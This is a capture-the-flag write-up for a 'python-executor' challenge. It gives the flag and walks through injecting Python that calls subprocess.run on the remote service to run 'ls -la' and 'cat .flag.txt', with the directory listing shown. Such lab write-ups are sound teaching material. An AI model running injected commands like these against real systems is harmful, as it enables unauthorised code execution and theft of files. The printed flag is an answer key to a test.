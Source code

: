 # python-executor


<br/>


## Challenge Description :

I made my own Python shell that executes valid Python syntax input statements and gives you the output. Try it out.

Connect to : `nc 35.244.42.91 1024`


<br/>


## Hint :

Example : `import <MODULE>; <MODULE>.run(["echo", "hello"])`


<br/>


## Flag :

`isfcr{3x3c_0r_5ubpr0c355_run?}`


<br/>


## Solution :

This challenge involves remote shell code execution using Python.

1. Using the hint, we figure out that the `<MODULE>` is the `subprocess` module.
2. Connect to the server and execute the example command : `import subprocess; subprocess.run(["echo", "hello"])`
    - We get the output `hello`. This tells us that we are able to execute Linux shell commands.
3. Let's try and list all the files in the directory : `import subprocess; subprocess.run(["ls", "-la"])`
    - We get the output :
        ```
        total 44
        dr-xr-xr-x 1 root root 4096 Apr 24 06:40 .
        drwxr-xr-x 1 root root 4096 Apr 24 05:03 ..
        -r-xr-xr-x 1 root root  220 Apr 23  2023 .bash_logout
        -r-xr-xr-x 1 root root 3526 Apr 23  2023 .bashrc
        -r-xr-xr-x 1 root root   30 Apr 24 06:38 .flag.txt
        -r-xr-xr-x 1 root root  807 Apr 23  2023 .profile
        -r-xr-xr-x 1 root root  290 Apr 24 06:38 Dockerfile
        -r-xr-xr-x 1 root root  776 Apr 24 06:38 README.md
        -r-xr-xr-x 1 root root  527 Apr 24 06:38 app.py
        ```
4. Let's read the contents of `.flag.txt` to get the flag : `import subprocess; subprocess.run(["cat", ".flag.txt"])`

